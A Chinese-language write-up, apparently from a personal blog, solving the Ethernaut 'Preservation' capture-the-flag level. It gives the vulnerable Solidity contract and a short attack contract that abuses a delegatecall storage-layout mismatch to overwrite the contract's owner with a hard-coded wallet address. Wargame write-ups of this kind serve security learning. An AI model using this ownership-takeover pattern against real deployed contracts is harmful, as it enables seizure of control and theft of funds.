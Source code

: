 # Preservation

## 题目

目标：将owner修改为我们的钱包地址

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## 分析

本题和之前遇到其中一题原理一样，不做多阐述，见本博客文章[security-14]

交易的时候调高gas，否则交易会失败

## 攻击合约

```solidity
contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
    	//形参_time没用到，只是为了函数选择器一致才这么设置的
    	//直接将owner设置为我们的钱包地址，没用到_time
        owner = address(0xd3E65149C212902749D49011B6ab24bba30D97c6);
    }
}
```

## 做题

获取实例，做题

![image-20221224171028921](16.Preservation/image-20221224171028921.png)

![image-20221224171046536](16.Preservation/image-20221224171046536.png)

再次调用

![image-20221224171053790](16.Preservation/image-20221224171053790.png)

通过

![image-20221224170655355](16.Preservation/image-20221224170655355.png)
